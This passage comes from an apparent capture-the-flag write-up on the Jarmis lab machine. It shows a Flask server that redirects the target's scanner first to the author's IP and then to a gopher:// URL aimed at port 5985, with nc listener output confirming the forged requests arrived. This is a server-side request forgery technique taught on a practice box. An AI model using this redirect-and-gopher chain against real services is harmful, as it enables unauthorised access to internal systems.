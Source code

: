     
    
    from flask import Flask, redirect
    from urllib.parse import quote
    app = Flask(__name__)    
    
    
    @app.route('/')    
    def root():    
        return redirect('http://10.10.14.6', code=301)
        
        
    if __name__ == "__main__":    
        app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
    

In the last line, `ssl_context` is what allows it to run with TLS. `host` is
necessary else it would only listen on localhost. And I like `debug` because I
can edit the code and not have to kill and restart the app.

When I send the scan from Jarmis, it works, redirected by MSF to Flask, and by
Flask to `nc` listening:

    
    
    oxdf@parrot$ nc -lnvp 80
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:53838.
    GET / HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.74.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    

#### Gopher

The next question is, can I redirect to a Gopher URL? I’ve shown this before
in [Laser](/2020/12/19/htb-laser.html#apache-solr-exploit) and
[Travel](/2020/09/12/htb-travel.html#interaction-with-memcache). Gopher is
nice for this kind of thing because it has no headers. What you put in the URL
is the body, so you can use it to write a HTTP POST request.

I’ll replace the location line in the server with:

    
    
        return redirect(f'gopher://10.10.14.6:5985/_test', code=301)
    

On submitting my URL to Jarmis, the redirects lead to this connection:

    
    
    oxdf@parrot$ nc -lnvp 5985
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47660.
    test
    